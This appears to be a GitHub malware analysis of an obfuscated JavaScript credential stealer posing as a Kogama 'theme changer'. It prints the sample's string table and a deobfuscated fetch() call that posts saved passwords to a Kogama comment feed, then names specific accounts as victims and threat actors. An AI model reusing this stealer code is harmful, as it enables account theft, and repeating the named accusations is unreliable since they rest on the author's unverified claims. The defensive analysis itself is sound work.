 # Malware Sample Analysis: Obfuscated JavaScript Payload

## Overview
This repository contains an analysis of a malicious JavaScript sample found on Pastebin, which masquerades as a benign "theme changer" utility. The script is heavily obfuscated and exhibits clear malicious behavior.


⚠️ **Warning**: Do not execute this script outside of a controlled sandbox environment.

 💚 Credits to ***Amine*** for helping me realise that no more current leads exist.

## Sample Information
- **Source**: [Pastebin Link](https://pastebin.com/raw/UqK3rjrA)
- **Claimed Function**: Theme changer utility
- **Actual Behavior**: Malicious payload (analysis ongoing)

## Indicators of Compromise
The script exhibits several red flags:

1. **Suspicious Attribution**
   - Unknown author ("Lavar") with no verifiable identity
   - No legitimate project homepage or documentation

2. **Obfuscation Techniques**
   - Heavy use of encoding and string manipulation
   - Unnecessary complexity for stated purpose
   - Obfuscated network calls

3. **Anomalous Code Patterns**
   ```javascript
   fetch('https://www.kogama.com/api/feed/31872096/comment/[...]') // A request to post a comment
   ({'comment':localStorage[_0x5acfe3(0x206)](...)})  // Accessing localStorage (saved data contents)
   const _0x1a7136=['addEventListener','getElementById','application/json','https://www.kogama.com/auth/logout'] // Getting an element by ID and logging us out
   ```

# Technical Analysis

### Initial Deobfuscation
The script employs heavy obfuscation with several immediate red flags:

```javascript
function _0x22fc() {
  const _0x1a7136 = [
    'addEventListener', 'log', 'stringify', 'location', 'status', 
    '173846mcQEUN', '9NpMVeb', 'Success:', '113830LYAXum', 'keyCode',
    'setItem', 'value', 'root-page-mobile', 'password', '71868QrEQBX',
    'getItem', 'error', '2716758eSaPId', 'catch', 'poop',
    'querySelector', 'Error:', '126544zlfMyY', 'lol', '506569BqwGkp',
    '.MuiButtonBase-root.MuiButton-root.MuiButton-text.MuiButton-textDefault...',
    '99qjFQGn', '2MXeZit', 'then', 'getElementById', 'application/json',
    'https://www.kogama.com/auth/logout', '25vivdkf', 'json',
    "Button not found!", '768536FEIJoG', 'POST', 'click',
    '.MuiButtonBase-root.MuiButton-root.MuiButton-contained...',
    "background-image: linear-gradient(135deg, rgb(0 137 255), rgb(0 112 255))"
  ];
  _0x22fc = function() { return _0x1a7136; };
  return _0x22fc();
}
```

###  Key Malicious Behaviors

1. **Anomalous Code Patterns**
   - Sets a localStorage variable named 'poop' to store passwords
   - Calls logout function (https://www.kogama.com/auth/logout) to force re-authentication

2. **Data Exfiltration**
   - Transmits stolen credentials as a "comment" to a fixed Kogama.com feed ID
   - You can view the current state of comments from this object [here](https://www.kogama.com/api/feed/31872096/comment/)
   - If you want to go a few steps ahead, you can compare your findings to what I've saved @ [May 31, 2025 20:24]([https://github.com/vendicatedcore/kgmmlwr/blob/main/Inversion/Script/endpoint/comments.json](https://github.com/vendicatedcore/kgmmlwr/blob/main/Inversion/Script/Data/Comments.json))
```javascript
fetch('https://www.kogama.com/api/feed/31872096/comment/', {
  'method': _0x5acfe3(0x1f3),  // Resolves to 'POST'
  'headers': {
    'Content-Type': _0x5acfe3(0x1ed)  // Resolves to 'application/json'
  },
  'body': JSON[_0x5acfe3(0x1f9)]({  // Resolves to 'stringify'
    'comment': localStorage[_0x5acfe3(0x206)](_0x5acfe3(0x1e2))  // Gets 'password'
  })
```

As of [May 31, 2025 20:24]([https://github.com/vendicatedcore/kgmmlwr/blob/main/Inversion/Script/endpoint/comments.json](https://github.com/vendicatedcore/kgmmlwr/blob/main/Inversion/Script/Data/Comments.json)) the only accounts that have posted any comments under this specific Object are ~~GameCodeMaster~~ and a dummy account @ [Boris Jacob Anderson](https://www.kogama.com/profile/670351929/). Both of those have already changed passwords which could mean two twings. 
~~Either the person behind this script is GameCodeMaster simply testing their own sample, or that account has been stolen because of their naive traits.
Why such theory? GameCodeMaster is an owner of 'Tester' Badge, which these days - isn't rare, but it just may be an indicator.~~

*~~What of the post/feed that stores the comments? - I'm still trying to locate it, trying to finalise the investigation.
No hits in unpublished projects, deleted maps or anywhere else.
Due to this issue - figuring out who's behind the script is currently impossible.~~

It appears that the usual feed_id URL works like ``feed/profile_id/`` - but since this profile has been deleted a longer while ago, there's absolutely no way to find more as such things provide no posterID. This lead is a dead trope.

![image](https://github.com/user-attachments/assets/50b0b399-baad-4b8b-b0e1-7dbb30eeb70f)

> [**This is what happens when you execute the script**](https://youtu.be/cgtRLFCTV40 )


## Conclusion & Recommendations

### Summary of Findings
1. **Malicious Intent Confirmed**  
   The script is definitively a credential stealer masquerading as a theme utility, with:
   - Password harvesting via forced re-authentication
   - Data exfiltration to a public comment feed
   - Deliberate obfuscation to evade detection

2. **Attack Infrastructure**  
   - Utilizes Kogama's legitimate API as C2 channel
   - Targets: `https://www.kogama.com/api/feed/31872096/comment/`
   - Persistence: Stored credentials in `localStorage` under key `'poop'`

3. **Attribution Challenges**  
   - Only two affected accounts detected ~~GameCodeMaster~~ and [Boris Jacob Anderson](https://www.kogama.com/profile/670351929/))
   - Possible scenarios:
     * Attacker testing their own malware
     * Compromised naive accounts
     * False flag operation

### Mitigation Strategies
| Action | Implementation |
|--------|----------------|
| Credential Rotation | All potentially exposed users should change passwords |
| API Monitoring | Kogama should investigate abnormal comment patterns on feed #31872096 |
| Client Protection | Block execution of scripts from untrusted paste sites |

### Future Research Directions
- **Feed Origin Analysis**: Continue hunting for the parent feed object
- **Pattern Correlation**: Compare with other Kogama-targeting malware
- **Attacker TTPs**: Document tactics for threat intelligence sharing

### Community Call-to-Action
Help expand this analysis by:
1. Reporting additional affected accounts via Issues
2. Contributing YARA rules for detection
3. Sharing related samples in the wild

---

# FINAL INVESTIGATION RESULTS

After thorough analysis, it has been determined that the initial hypothesis regarding GameCodeMaster being the threat actor was incorrect. In reality, GameCodeMaster was among three individuals who were coerced through blackmail into developing malicious scripts under the direction of an entity known as 'Inversion'.

Two additional parties involved in this operation, who engaged in harassment and email spamming targeting the victims, have been identified as 'zinxi' and 'g0d_b3rn13'.

> ![Evidence 1](https://github.com/user-attachments/assets/9f92350e-091d-4038-ae28-6f00e670ddf5)
> ![Evidence 2](https://github.com/user-attachments/assets/4083e999-6c48-4bee-91dc-d2c6eaa8c4bc)

## IDENTIFIED THREAT ACTOR
**Primary Actor**: [__ChiefPuddle/Inversion__](https://www.kogama.com/profile/670201468/)  

**Known Alternate Accounts**:  
- [__Asood Moohammed243__](https://www.kogama.com/profile/670339973/)

## ADDITIONAL FINDINGS
The primary threat actor has been actively distributing password-stealer malware through comments on the profile of '[G0D_B3RN13](https://www.kogama.com/profile/669867874/)'.

> ![Malware Distribution Evidence](https://github.com/user-attachments/assets/d009bf9d-c8cf-4da1-8c85-5e248c954596)


**Due to privacy reasons, I'm unable to provide more screenshots.**
